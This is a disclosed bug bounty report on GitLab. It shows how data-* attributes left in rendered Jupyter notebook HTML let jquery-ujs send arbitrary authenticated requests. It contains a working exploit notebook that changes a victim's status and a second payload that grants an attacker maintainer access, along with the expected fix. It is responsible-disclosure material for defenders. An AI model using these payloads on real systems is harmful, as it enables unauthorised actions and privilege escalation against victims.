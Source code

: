 # Sending Arbitrary Requests through Jupyter Notebooks on gitlab.com and Self-Hosted GitLab Instances

## Report Details
- **Report ID**: 970869
- **URL**: https://hackerone.com/reports/970869
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-08-30T18:14:35.262Z
- **Disclosed**: 2022-02-10T14:46:45.898Z

## Reporter
- **Username**: iwis
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
> *NOTE*: I am still researching whether there is a possibility to deploy the exploit without user interaction.

### Summary

GitLab provides a [rich representation](https://docs.gitlab.com/ee/user/project/repository/jupyter_notebooks/) for Jupyter Notebooks (`*.ipynb`). In turn, Jupyter Notebooks provide the possibility for [rich output via HTML](https://nbviewer.jupyter.org/github/ipython/ipython/blob/master/examples/IPython%20Kernel/Rich%20Output.ipynb#HTML). Although most tags and attributes are stripped from the HTML output rendered in GitLab's rich representation, it retains `data-*` attributes. Using [`jquery-ujs`](https://gitlab.com/gitlab-org/gitlab/-/blob/4e12f87c013f59070bf1156bb2427af9fa9123c4/package.json#L101) as a gadget, it is possible to trigger `GET`/`POST`/`PUT`/`DELETE` requests with an [arbitrary payload](https://github.com/rails/jquery-ujs/wiki/Unobtrusive-scripting-support-for-jQuery-%28list-of-data-attributes%29#data-params). On https://gitlab.com, the CSP restricts the target, while there is no such limitation for self-hosted GitLab instances. As of now, this vulnerability requires user interaction in the form of a single click followed by and applies to https://gitlab.com as well as self-hosted GitLab instances.

### Steps to reproduce

1. Create a GitLab project or refer to an existing project.
2. Upload an `exploit.ipynb` file with the following contents:

     ```json
    {
      "cells": [
        {
          "metadata": { "trusted": true },
          "cell_type": "code",
          "source": "Tell me something about you!",
          "execution_count": 1,
          "outputs": [
            {
              "output_type": "display_data",
              "data": {
                "text/plain": "<IPython.core.display.HTML object>",
                "text/html": "What's your favorite color?&emsp;<select data-method=\"put\" data-params=\"message=p0wn3d\" data-remote=\"true\" data-url=\"/api/v4/user/status\"><option>Red</option><option>Green</option><option>Blue</option></select>\n"
              },
              "metadata": {}
            }
          ]
        }
      ],
      "metadata": {
        "kernelspec": {
          "name": "python3",
          "display_name": "Python 3",
          "language": "python"
        },
        "language_info": {
          "name": "python",
          "version": "3.7.8",
          "mimetype": "text/x-python",
          "codemirror_mode": { "name": "ipython", "version": 3 },
          "pygments_lexer": "ipython3",
          "nbconvert_exporter": "python",
          "file_extension": ".py"
        }
      },
      "nbformat": 4,
      "nbformat_minor": 4
    }
    ```
where `cells[0].outputs[0].data.text/html` contains the payload.
3. In the *Files*  view of the project, click on the above-added `exploit.ipynb`.
4. Select an option other than the default.
5. Reload the page to recongize that your status has been altered, i.e. click on your profile in the top right corner.

### Impact

An attacker is able to send `GET`/`POST`/`PUT`/`DELETE` requests with an [arbitrary payload](https://github.com/rails/jquery-ujs/wiki/Unobtrusive-scripting-support-for-jQuery-%28list-of-data-attributes%29#data-params) to targets within the CSP on https://gitlab.com or arbitrary targets on self-hosted GitLab instances on behalf of the victim.

The impact is similar to that of #824689 and #806571.

### Examples

Due to the destructive nature of the above-described example, I do not provide a public PoC, although I have created [an exemplary repository](https://gitlab.com/dpfuerst/sending-arbitrary-requests-through-jupyter-notebooks). This repository is private, please let me know if you would like me to change the visibility.

The above-described `exploit.ipynb` [sets the user status](https://docs.gitlab.com/ee/api/users.html#set-user-status) of the victim to `p0wn3d`. However, more critical permission-related exploits are also possible. Consider an attacker with developer access to a project who wants to gain maintainer access, instead. That attacker could upload an exploit like the above with the following payload:

```html
What's your favorite color?&emsp;<select data-method=\"put\" data-params=\"user_id=<ATTACKER_ID>&access_level=40\" data-remote=\"true\" data-url=\"/api/v4/projects/<PROJECT_ID>/members\"><option>Red</option><option>Green</option><option>Blue</option></select>\n
```

where `<ATTACKER_ID>` is to be replaced with the attacker's user ID and `<PROJECT_ID>` is to be replaced with the target project's ID to [gain maintainer access](https://docs.gitlab.com/ee/api/members.html#edit-a-member-of-a-group-or-project).

### What is the current *bug* behavior?

The provided `exploit.ipynb` renders to

```html
What's your favorite color? <select data-url="/api/v4/user/status" data-remote="true" data-params="message=p0wn3d" data-method="put"><option>Red</option><option>Green</option><option>Blue</option></select>
```

### What is the expected *correct* behavior?

The provided `exploit.ipynb` should render to

```html
What's your favorite color? <select><option>Red</option><option>Green</option><option>Blue</option></select>
```

That is, `data-*` attributes should be stripped from GitLab's rich output. If the `data-*` attributes are necessary to provide another feature within the rich output, their appearance should be whitelisted, at least.

### Output of checks

This bug happens on GitLab.com

#### Results of GitLab environment info

```
System information                                                       
System:         Ubuntu 16.04                                             
Proxy:          no                                                       
Current User:   git                                                      
Using RVM:      no                                                       
Ruby Version:   2.6.6p146                                                
Gem Version:    2.7.10                                                   
Bundler Version:1.17.3                                                   
Rake Version:   12.3.3                                                   
Redis Version:  5.0.9                                                    
Git Version:    2.28.0                                                   
Sidekiq Version:5.2.9                                                    
Go Version:     unknown                                                  
                                                                         
GitLab information                                                       
Version:        13.3.2-ee                                                
Revision:       d4deaad1474                                              
Directory:      /opt/gitlab/embedded/service/gitlab-rails                
DB Adapter:     PostgreSQL                                               
DB Version:     11.7                                                     
URL:            <REDACTED>
HTTP Clone URL: <REDACTED>
SSH Clone URL:  <REDACTED>
Elasticsearch:  no                                                       
Geo:            no                                                       
Using LDAP:     no                                                       
Using Omniauth: yes                                                      
Omniauth Providers:                                                      
                                                                         
GitLab Shell                                                             
Version:        13.6.0                                                   
Repository storage paths:                                                
- default:      /git/repositories                                        
GitLab Shell path:              /opt/gitlab/embedded/service/gitlab-shell
Git:            /opt/gitlab/embedded/bin/git
```

## Impact

An attacker is able to send `GET`/`POST`/`PUT`/`DELETE` requests with an [arbitrary payload](https://github.com/rails/jquery-ujs/wiki/Unobtrusive-scripting-support-for-jQuery-%28list-of-data-attributes%29#data-params) to targets within the CSP on https://gitlab.com or arbitrary targets on self-hosted GitLab instances on behalf of the victim. For example, using the GitLab API as a target, an attacker could gain maintainer access to a project, given that the victim is maintainer (or higher) themselves.

The impact is similar to that of #824689 and #806571.

## Attachments
- exploit.ipynb
